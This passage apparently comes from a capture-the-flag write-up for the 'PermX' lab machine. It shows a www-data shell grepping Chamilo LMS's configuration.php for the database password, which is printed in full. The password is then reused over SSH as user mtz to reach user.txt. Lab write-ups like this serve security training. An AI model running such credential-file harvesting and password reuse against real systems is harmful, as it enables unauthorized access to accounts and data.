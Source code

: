 | Username |
| -------- |
| mtz      |

We harvested some credentials from a `configuration file` inside the `app` directory of `Chamilo LMS` inside `/var/www/` which could be used to access the applications `database`.

```c
www-data@permx:/var/www/chamilo/app/config$ ^C
<milo/app/config$ cat configuration.php | grep password                      
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

| Password         |
| ---------------- |
| 03F6lY3uXAP2bkW8 |

## Privilege Escalation to mtz

### Password Reuse

Luckily for us, the password was `reused` by `mtz` and we were able to grab the `user.txt`.

```c
┌──(kali㉿kali)-[~]
└─$ ssh mtz@permx.htb
The authenticity of host 'permx.htb (10.129.221.151)' can't be established.
ED25519 key fingerprint is SHA256:u9/wL+62dkDBqxAG3NyMhz/2FTBJlmVC1Y1bwaNLqGA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'permx.htb' (ED25519) to the list of known hosts.
mtz@permx.htb's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Jul  6 07:51:47 PM UTC 2024

  System load:           0.08
  Usage of /:            59.0% of 7.19GB
  Memory usage:          12%
  Swap usage:            0%
  Processes:             239
  Users logged in:       0
  IPv4 address for eth0: 10.129.221.151
  IPv6 address for eth0: dead:beef::250:56ff:fe94:ac60


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Mon Jul  1 13:09:13 2024 from 10.10.14.40
mtz@permx:~$
```
